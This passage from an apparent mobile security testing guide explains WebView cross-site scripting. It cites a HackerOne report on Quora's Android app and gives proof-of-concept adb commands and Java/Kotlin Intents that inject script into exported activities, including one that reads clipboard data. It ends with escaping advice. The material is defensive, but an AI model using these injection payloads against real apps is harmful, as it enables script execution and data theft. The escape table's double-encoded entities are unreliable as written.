 ```kotlin
```

Sergey Bobrov was able to take advantage of this in the following [HackerOne report](https://hackerone.com/reports/189793). Any input to the HTML parameter would be trusted in Quora's ActionBarContentActivity. Payloads were successful using adb, clipboard data via ModalContentActivity, and Intents from 3rd party applications.

* ADB
```bash
$ adb shell
$ am start -n com.quora.android/com.quora.android.ActionBarContentActivity \
-e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
```
* Clipboard Data
```bash
$ am start -n com.quora.android/com.quora.android.ModalContentActivity  \
-e url 'http://test/test' -e html \
'<script>alert(QuoraAndroid.getClipboardData());</script>'
```
* 3rd party Intent in Java or Kotlin :
```java
Intent i = new Intent();
i.setComponent(new ComponentName("com.quora.android",
"com.quora.android.ActionBarContentActivity"));
i.putExtra("url","http://test/test");
i.putExtra("html","XSS PoC <script>alert(123)</script>");
view.getContext().startActivity(i);
```
```kotlin
val i = Intent()
i.component = ComponentName("com.quora.android",
"com.quora.android.ActionBarContentActivity")
i.putExtra("url", "http://test/test")
i.putExtra("html", "XSS PoC <script>alert(123)</script>")
view.context.startActivity(i)
```


If a WebView is used to display a remote website, the burden of escaping HTML shifts to the server side. If an XSS flaw exists on the web server, this can be used to execute script in the context of the WebView. As such, it is important to perform static analysis of the web application source code.

Verify that the following best practices have been followed:
* No untrusted data is rendered in HTML, JavaScript or other interpreted contexts unless it is absolutely necessary.
* Appropriate encoding is applied to escape characters, such as HTML entity encoding. Note: escaping rules become complicated when HTML is nested within other code, for example, rendering a URL located inside a JavaScript block.

Consider how data will be rendered in a response. For example, if data is rendered in a HTML context, six control characters that must be escaped:
| Character | Escaped |
| :---: | :---: |
| & | &amp;amp; |
| < | &amp;lt; |
| > | &amp;gt; |
| " | &amp;quot; |
| ' | &amp;#x27; |
| / | &amp;#x2F; |
